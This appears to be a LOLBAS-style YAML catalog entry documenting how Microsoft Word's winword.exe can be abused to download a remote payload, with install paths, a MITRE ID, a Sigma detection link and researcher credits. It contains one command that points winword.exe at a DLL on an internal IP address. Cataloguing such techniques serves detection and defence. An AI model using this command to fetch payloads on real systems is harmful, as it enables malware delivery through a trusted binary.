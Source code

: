 ```yaml
---
Name: Winword.exe
Description: Microsoft Office binary
Author: 'Reegun J (OCBC Bank)'
Created: 2019-07-19
Commands:
  - Command: winword.exe "http://192.168.1.10/TeamsAddinLoader.dll"
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files\Microsoft Office\root\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\winword.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office16\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\winword.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office15\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\winword.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office14\winword.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office12\winword.exe
  - Path: C:\Program Files\Microsoft Office\Office12\winword.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/19396788dbedc57249a46efed2bb1927abc376d4/rules/windows/process_creation/proc_creation_win_lolbin_winword.yml
  - IOC: Suspicious Office application Internet/network traffic
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: 'Reegun J (OCBC Bank)'
    Handle: '@reegun21'
---
```

